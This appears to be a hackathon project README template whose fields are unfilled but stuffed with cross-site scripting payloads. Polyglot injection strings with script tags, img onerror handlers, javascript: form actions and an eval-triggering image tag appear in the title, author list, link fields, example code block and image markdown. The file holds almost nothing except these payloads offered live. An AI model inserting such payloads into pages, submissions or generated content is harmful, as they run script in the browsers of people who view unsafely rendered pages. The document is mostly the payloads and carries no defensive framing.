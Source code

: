 # Project Title
"><img src=x onerror=prompt(1);>

'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1&#x29;"/alt="/"src="/"onerror=eval
id&#x29;>'"><img src="https://d2r1vs3d9006ap.cloudfront.net/public/uploaded_images/9858149/577688_10150809792903638_1658384618_n_large.jpg">


## Authors
- "><img src=x onerror=prompt(1);>
- Insert other author(s) name, surname, github account (one per list element)

## Description
Insert a description containing about 100 to 150 words, including your motivation and the meaning behind your idea and execution. The Judges will be keen to know how your idea pushes the boundaries of code and technology. 

## Link to Prototype
NOTE: If your project lives online you can add one or more links here. Make sure you have a stable version of your project running before linking it.

[Example Link](http://www.google.com "Example Link") 
'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1&#x29;"/alt="/"src="/"onerror=eval
id&#x29;>'"><img src="https://d2r1vs3d9006ap.cloudfront.net/public/uploaded_images/9858149/577688_10150809792903638_1658384618_n_large.jpg">

## Example Code
NOTE: Wrap your code blocks or any code citation by using ``` like the example below.
```
function test() {
  console.log("Printing a test");
}
"><img src=x onerror=prompt(1);>
```
## Links to External Libraries
 NOTE: You can also use this space to link to external libraries or Github repositories you used on your project.

[Example Link](http://www.google.com "Example Link"
'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1&#x29;"/alt="/"src="/"onerror=eval
id&#x29;>'"><img src="https://d2r1vs3d9006ap.cloudfront.net/public/uploaded_images/9858149/577688_10150809792903638_1658384618_n_large.jpg">)

## Images & Videos
NOTE: For additional images you can either use a relative link to an image on this repo or an absolute link to an externally hosted image.

![Example Image]"><img src=x onerror=prompt(1);> (project_images/cover.jpg?raw=true "Example Image")

https://www.youtube.com/watch?v=30yGOxJJ2PQ
